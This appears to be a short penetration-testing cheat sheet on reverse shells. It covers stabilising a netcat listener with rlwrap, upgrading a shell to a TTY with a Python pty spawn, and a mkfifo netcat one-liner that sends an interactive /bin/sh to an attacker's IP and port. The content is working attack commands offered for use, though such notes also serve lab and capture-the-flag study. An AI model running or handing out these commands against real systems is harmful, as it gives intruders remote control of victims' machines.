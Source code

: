 ## How to upgrade shells on every OS
There is a tool called rlwrap. It helps upgrading the reverse shell on netcat. Simply use rlwrap nc -nlvp <port> and done!

## Manual upgrade to TTY on Linux
Run the following lines:

```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm
```

## How to obtain reverse shell with 'Neutered' Netcat
Some versions of netcat do not accept the flag -e. Therefore, the common nc command to send a reverse shell will not work.

```
mkfifo f;nc <ip> <port> 0<f | /bin/sh -i 2>&1 | tee f
```


